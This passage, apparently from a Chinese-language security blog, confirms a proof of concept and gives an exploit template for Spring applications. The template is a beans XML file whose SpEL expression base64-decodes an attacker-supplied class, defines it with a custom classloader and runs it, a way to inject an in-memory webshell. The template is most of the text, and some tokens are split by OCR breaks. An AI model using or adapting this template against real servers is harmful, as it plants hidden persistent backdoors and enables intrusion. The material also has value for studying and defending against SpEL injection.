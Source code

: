 [![](assets/1709112096-c232716b7c2f215af3384450fd7873a3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227111440-58b91c52-d51e-1.png)

这个 Poc 首先是成立的，然后假如想进一步利用就利用 SPEL 去注入内存马即可了。  
exp 的模板如下

```plain
<?xml version="1.0" encoding="UTF-8" ?>
 <beans xmlns="http://www.springframework.org/schema/beans"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 
xmlns:spring="http://camel.apache.org/schema/spring"
 xmlns:context="http://www.springframework.org/schema/context"
 xsi:schemaLocation="http://www.springframework.org/schema/beans 
http://www.springframework.org/schema/beans/spring-beans.xsd 
http://camel.apache.org/schema/spring 
http://camel.apache.org/schema/spring/camel-spring.xsd 
http://www.springframework.org/schema/context 
http://www.springframework.org/schema/context/spring-context.xsd">
 <context:property-placeholder ignore-resource-not-found="false" ignore
unresolvable="false"/>
 <bean id="ClassBase64Str" class="java.lang.String">
 <constructor-arg 
value="<base64>">
 </constructor-arg>
 </bean>
<bean  class="#
 {T(org.springframework.cglib.core.ReflectUtils).defineClass('<classname>',T(org.springframework.util.Base64Utils).decodeFromString(ClassBase64Str.to
 String()),new javax.management.loading.MLet(new 
java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())
 ).newInstance().test1()}">
 </bean>
 </beans>
```
